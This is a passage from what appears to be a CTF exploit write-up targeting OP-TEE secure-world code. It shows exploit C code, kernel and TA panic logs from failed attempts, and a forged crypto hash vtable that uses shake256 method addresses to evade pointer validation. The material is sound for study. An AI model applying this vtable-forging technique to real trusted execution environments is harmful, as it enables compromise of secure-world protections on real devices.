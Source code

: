 ```c
  {
    EMSG("AllocateOperation failed res=0x%08x", res);
    return;
  }

  // Print flag in Secure World logs
  DMSG("flag @ %s\n", flag);
}
```
### Fuckup 0x00
Regrettably, the exploit attempt failed when a validation assert detected our forged `ops` pointer as invalid, triggering a kernel panic:
```
D/TA:  __GP11_TA_InvokeCommandEntryPoint:146 xploit
I/TC: [SAS] op=1 id=0 buf=0x0 len=4096
I/TC: [SAS] op=3 id=0 buf=0x40016e28 len=40
I/TC: [SAS] op=1 id=1 buf=0x0 len=432
I/TC: [SAS] op=2 id=1 buf=0x0 len=0
I/TC: [SAS] op=3 id=1 buf=0x40016e10 len=8
E/TC:? 0 assertion 'ctx && ctx->ops == &ltc_hash_ops' failed at core/lib/libtomcrypt/hash.c:31 <to_hash_ctx>
E/TC:0 0 Panic at core/kernel/assert.c:28 <_assert_break>
E/TC:0 0 TEE load address @ 0xe100000
E/TC:0 0 Call stack:
E/TC:0 0  0x0e1061e4
E/TC:0 0  0x0e10ab88
E/TC:0 0  0x0e10a924
E/TC:0 0  0x0e1dcb20
E/TC:0 0  0x0e1dcb3c
E/TC:0 0  0x0e1cccdc
E/TC:0 0  0x0e1acbbc
E/TC:0 0  0x0e1051f0
E/TC:0 0  0x0e104130
I/TC: Halting CPU 1
```
### Attempt 0x01
Upon closer examination of the methods in the `crypto_hash_ops` virtual tables, it becomes clear that both `ltc_hash` and `sm3_hash` perform table address validation in all their methods. Fortunately, this validation is absent in `shake128` and `shake256`. We’ll now replace all methods except `final` in our `fake_ops` with their corresponding methods from `shake256_ops`:
```C
  const uint64_t fake_ops[] =
  {
    0xE1DE140, 0xE1DE11C, 0x0E1AD418, 0xE1DE0F4, 0xE1DE168
  };
```
### Fuckup 0x01
This attempt also failed with a panic, but in the TA rather than the kernel:
```
D/TA:  __GP11_TA_InvokeCommandEntryPoint:139 xploit
I/TC: [SAS] op=1 id=0 buf=0x0 len=4096
I/TC: [SAS] op=3 id=0 buf=0x40016e28 len=40
I/TC: [SAS] op=1 id=1 buf=0x0 len=432
I/TC: [SAS] op=2 id=1 buf=0x0 len=0
I/TC: [SAS] op=3 id=1 buf=0x40016e10 len=8
E/TC:? 0
E/TC:? 0 TA panicked with code 0xe115000
E/LD:  Status of TA 41414141-4141-4141-4141-414141414141
E/LD:   arch: aarch64
E/LD:  region  0: va 0x40006000 pa 0x00000000 size 0x002000 flags rw-s (ldelf)
E/LD:  region  1: va 0x40008000 pa 0x00000000 size 0x008000 flags r-xs (ldelf)
E/LD:  region  2: va 0x40010000 pa 0x00000000 size 0x001000 flags rw-s (ldelf)
```